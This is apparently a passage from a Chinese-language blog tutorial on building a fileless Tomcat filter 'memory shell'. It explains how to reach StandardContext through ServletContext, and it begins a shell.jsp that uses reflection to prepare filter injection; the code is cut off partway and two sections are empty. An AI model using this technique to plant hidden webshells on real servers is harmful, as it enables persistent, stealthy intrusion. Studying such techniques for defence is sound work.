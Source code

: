

#### 2.运行

![image-20220112093849052](http://image.xpshuai.cn/img/image-20220112093849052.png)

可以看到这个就是在tomcat中没有任何shell文件，但是在过滤器中执行了我们的代码。



### 0x04 实战真正内存马

首先得明白一点，在实战环境下，你不可能写一个Filter对象然后又放到对方的代码中，这样子不就早getshell了，而且就算修改了，想要生效也需要重启。**所以我们需要找到一个注入点，动态的在内存中插入filter对象，这样才叫做一个真正的内存马了**，那我们该如何操作呢？



#### 知识点1：ServletContext

web应用启动的时候，都会产生一个ServletContext为接口的对象，因为在web中这个ServletContext对象的一些数据能够保证Servlets稳定运行。

那么该对象如何获得？

在tomcat容器中中ServletContext的实现类是ApplicationContext类

在web应用中，获取的ServletContext实际上是ApplicationContextFacade的对象，对ApplicationContext进行了封装，而ApplicationContext实例中又包含了StandardContext实例，所以说我们在tomcat中拿到StandardContext则是去获取ApplicationContextFacade这个对象。

> 看完我也是懵懵的...



#### 知识点2：组装Filters的流程

> 要调试Tomcat的话，需要注意的记得把tomcat下的lib文件导入到idea工程中，要不然idea在调试的时候是找不到的！



#### 知识点3：FilterConfig









#### 最终代码

如下：shell.jsp

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
	// 1.获取当前应用的ServletContext对象(这里是反射获取ApplicationContext的context，也就是standardContext)
    final String name = "xps";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
```